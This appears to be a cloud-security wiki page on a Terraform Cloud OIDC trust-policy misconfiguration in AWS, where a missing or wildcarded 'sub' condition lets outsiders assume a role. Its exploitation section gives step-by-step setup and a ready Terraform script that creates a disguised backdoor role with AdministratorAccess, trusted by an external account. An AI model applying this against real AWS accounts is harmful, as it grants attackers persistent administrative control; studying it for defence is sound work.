





<div class="grid cards" markdown>

-   :material-account:{ .lg .middle } __Original Research__

    ---

    <aside style="display:flex">
    <p><a href="https://hacktodef.com/addressed-aws-defaults-risks-oidc-terraform-and-anonymous-to-administratoraccess">Addressed AWS defaults risks: OIDC, Terraform and Anonymous to AdministratorAccess</a> by <a href="https://www.linkedin.com/in/eduard-k-agavriloae/">Eduard Agavriloae</a></p>
    <p></img></p>
    </aside>

</div>

OIDC stands for OpenID Connect and is an identity layer built on top of the OAuth 2.0 protocol. In AWS, OIDC can be used to federate identities from external identity providers, such as Google, Facebook or Terraform, allowing users to access AWS resources using their existing third-party accounts.

OIDC is useful because instead of creating a set of AWS access keys for a user with administrator permissions and worry that they might get exposed, you can configure an IAM role with OIDC for Terraform Cloud to assume.



## IAM role misconfiguration using Terraform Cloud OIDC

### Part of the past as of 7th of February

When the issue was first documented, the presence of this misconfiguration was partially facilitated by AWS. If you were to create from the web portal a new IAM role for Terraform Cloud, by default the role's trust policy would look like this:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
       "Effect": "Allow",
       "Principal": {
         "Federated": "arn:aws:iam::<aws-account-id>:oidc-provider/app.terraform.io"
       },
       "Action": "sts:AssumeRoleWithWebIdentity",
       "Condition": {
         "StringEquals": {
            "app.terraform.io:aud": "aws.workload.identity"
         }
       }
    }
  ]
}
```

This trust role policy is missing the "app.terraform.io:sub" condition. Essentially, the present misconfiguration allows anyone to assume this role. As documented by [Terraform Cloud](https://developer.hashicorp.com/terraform/cloud-docs/workspaces/dynamic-provider-credentials/aws-configuration), you need to specify your organization through the subject condition like below to limit the access to this role:

```json
"Condition": {
    "StringEquals": {
      "app.terraform.io:aud": "aws.workload.identity"
    },
    "StringLike": {
      "app.terraform.io:sub": "organization:<your-terraform-organization>:project:<project>:workspace:<workspace>:run_phase:<run_phase>"
    }
}
```

Well, AWS made some changes and now they require from the start to specify the Organization, Project, Workspace, and Run Phase. Even more, now you can't create Terraform Cloud OIDC roles that don't have the subject condition.



And for anyone who had a role for Terraform Cloud without the subject, on 8th of November 2024 AWS sent a notification that announced two things:

- Starting 7th of November 2024 you will not be able to create new Terraform Cloud roles without the subject condition
- Starting 7th of February 2025 the subject condition will be enforced for these roles (so most likely the misconfigured roles will not work anymore afterwards)   



So while you might still be able to find roles misconfigured like this (without the subject condition), just be aware that the attack against it most likely will not work starting from 7th of February 2025.

Can you still exploit misconfigured Terraform Cloud OIDC roles? Yes.

### The present misconfiguration

These roles can still be misconfigured. All it takes is an asterisks in the organization's name.



So let's say we identified a role with the next trust policy:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "arn:aws:iam::259230201556:oidc-provider/app.terraform.io"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "StringEquals": {
                    "app.terraform.io:aud": "aws.workload.identity"
                },
                "StringLike": {
                    "app.terraform.io:sub": "organization:hackingthe*:project:blog:workspace:prod-front-end:run_phase:*"
                }
            }
        }
    ]
}
```

Notice the asterisk from the organization's name. Because the value is `hackingthe*`, we should be able to assume this role as described in the next section.

## Exploitation

Go to [Terraform Cloud](https://app.terraform.io/), create an account (it's free) and:

- Create an organization that follows the mentioned pattern: `hackingthe-*`
- Create a project named `blog`
- Create a workspace named `prod-front-end`

The `run_phase` is usually an asterisk as it's values refer to the stages that occur during a Terraform operation: plan, policy check and apply.

The next step involves configuring the next two variables in Terraform Cloud:

- TFC_AWS_PROVIDER_AUTH: true
    - This will tell Terraform Cloud to authenticate with AWS
- TFC_AWS_RUN_ROLE_ARN: arn:aws:iam::<aws-account-id>:role/<role-name>
    - This will tell Terraform Cloud what role to assume




Prepare a Terraform script of your choice. Here is an example that wil create a backdoored role with administrator permissions. Please make sure you are authorized to perform this test.

```text
# here we need to set the the details of our organization
terraform {
  cloud {
    organization = "hackingthe-anything"
    workspaces {
      name = "prod-front-end"
    }
  }
}

# region can be anything if you create only IAM resources
provider "aws" {
  region = "eu-central-1"
}

# create role named "AWSServicesRoleForAutomation" that can be assumed from an external AWS account
resource "aws_iam_role" "create_role" {
  name               = "AWSServicesRoleForAutomation"
  assume_role_policy = jsonencode({
    "Version" : "2012-10-17",
    "Statement": [
      {
        "Effect": "Allow",
        "Principal": {
          "AWS": "arn:aws:iam::<external-aws-account>:root"
        },
        "Action": "sts:AssumeRole",
        "Condition": {}
      }
    ]
  })
}

# attach administrator level permissions to this role
resource "aws_iam_policy_attachment" "create_role_backdoor" {
  name       = "create_role_backdoor"
  roles      = [aws_iam_role.create_role.name]
  policy_arn = "arn:aws:iam::aws:policy/AdministratorAccess"
}
```

Save this to `main.tf`, login in terraform CLI and apply the changes.

```bash
terraform login
terraform init
terraform apply
```

Now the role should be created and you can try to assume it from the external AWS account.
